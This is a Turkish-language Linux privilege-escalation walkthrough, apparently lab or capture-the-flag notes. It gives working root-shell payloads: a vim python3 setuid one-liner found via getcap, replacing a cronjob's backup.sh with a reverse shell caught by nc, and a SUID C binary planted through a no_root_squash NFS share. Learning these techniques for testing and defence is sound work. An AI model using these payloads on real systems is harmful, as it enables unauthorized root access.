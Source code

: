 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


SUID bitlerini ayarlayabildiğimiz için hedef sistemde /bin/bash'i çalıştıracak basit bir çalıştırılabilir dosya işimizi görecektir.

![image](https://github.com/user-attachments/assets/dde4845c-94af-41e1-a82c-d190484f33e3)

```bash
# echo "int main(){setgid(0);setuid(0);system("/bin/bash");return 0;}" >> nfs.c
# gcc nfs.c -o nfs -w 
# chmod +s nfs   
# 
```

Kodu derlediğimizde SUID bitini ayarlayacağız.

![image](https://github.com/user-attachments/assets/2f97d0c4-0266-4fca-97a3-251db79a799f)

















